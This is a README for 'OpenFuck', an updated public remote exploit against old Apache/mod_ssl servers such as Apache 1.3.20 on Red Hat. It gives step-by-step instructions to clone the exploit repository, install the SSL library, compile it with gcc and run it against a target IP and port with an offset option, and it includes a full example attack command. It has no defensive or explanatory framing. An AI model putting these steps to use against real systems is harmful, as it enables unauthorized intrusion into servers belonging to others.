 # OpenFuck

## Usage

This Exploit (https://www.exploit-db.com/exploits/764/) is outdated. Here you can take updated

1. Download OpenFuck.c
```
git clone https://github.com/heltonWernik/OpenFuck.git
```
2. Install ssl-dev library

```
apt-get install libssl-dev
```

3. It's Compile Time

````
gcc -o OpenFuck OpenFuck.c -lcrypto
````

4. Running the Exploit
```
./OpenFuck
```

5. See which service you witch to exploit. For example if you need to Red Hat Linux, using apache version 1.3.20. Trying out using the 0x6a option
./OpenFuck 0x6a [Target Ip] [port] -c 40

for example:
```
./OpenFuck 0x6a 192.168.80.145 443 -c 40
```

**References:**
https://kongwenbin.wordpress.com/tag/openfuck/
https://medium.com/@javarmutt/how-to-compile-openfuckv2-c-69e457b4a1d1